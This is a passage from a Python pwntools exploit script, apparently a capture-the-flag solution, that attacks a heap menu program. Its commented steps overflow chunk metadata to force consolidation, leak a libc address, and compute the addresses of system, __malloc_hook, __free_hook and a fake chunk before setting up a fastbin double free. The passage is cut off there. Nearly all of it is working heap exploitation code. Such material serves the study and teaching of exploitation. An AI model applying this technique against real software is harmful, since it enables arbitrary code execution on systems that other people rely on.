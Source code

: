 ```
    target.recvuntil("Size: ")
    target.sendline(str(size))
    target.recvuntil("Content: ")
    target.send(content)

def free(index):
    target.recvuntil("Command: ")
    target.sendline("3")
    target.recvuntil("Index: ")
    target.sendline(str(index))

def dump(index):
    target.recvuntil("Command")
    target.sendline("4")
    target.recvuntil("Index: ")
    target.sendline(str(index))
    target.recvuntil("Content: \n")
    content = target.recvline()
    return content

# Make the initial four allocations, and fill them with data
alloc(0xf0)# Chunk 0
alloc(0x70)# Chunk 1
alloc(0xf0)# Chunk 2
alloc(0x30)# Chunk 3
fill(0, 0xf0, "0"*0xf0)
fill(1, 0x70, "1"*0x70)
fill(2, 0xf0, "2"*0xf0)
fill(3, 0x30, "3"*0x30)

# Free the first two
free(0)# Chunk 0
free(1)# Chunk 1

# Allocate new space where chunk 1 used to be, and overflow chunk chunk 2's previous size with 0x180 and the previous in use bit with 0x0 by pushing 0x100
alloc(0x78)# Chunk 0
fill(0, 128, '4'*0x70 + p64(0x180) + p64(0x100))

# Free the second chunk, which will bring the edge of the heap before the new chunk 0, thus effictively forgetting about Chunk 0
free(2)

# Allocate a new chunk that will move the libc address for main_arena+88 into the content
alloc(0xf0)# Chunk 1
fill(1, 0xf0, '5'*0xf0)

# Print the contents of chunk 0, and filter out the main_arena+88 infoleak, and calculate the offsets for everything else
leak = u64(dump(0)[0:8])
libc = leak - elf.symbols['__malloc_hook'] - 0x68
system = libc + 0x4526a
malloc_hook = libc + elf.symbols['__malloc_hook']
free_hook = libc + elf.symbols['__free_hook']
fake_chunk = malloc_hook - 0x23
log.info("Leak is:        " + hex(leak))
log.info("System is:      " + hex(system))
log.info("Free hook is:   " + hex(free_hook))
log.info("Malloc hook is: " + hex(malloc_hook))
log.info("Fake chunk is:  " + hex(fake_chunk))
log.info("libc is:        " + hex(libc))

# Free the first chunk to make room for the double free/fastbin duplicaion
```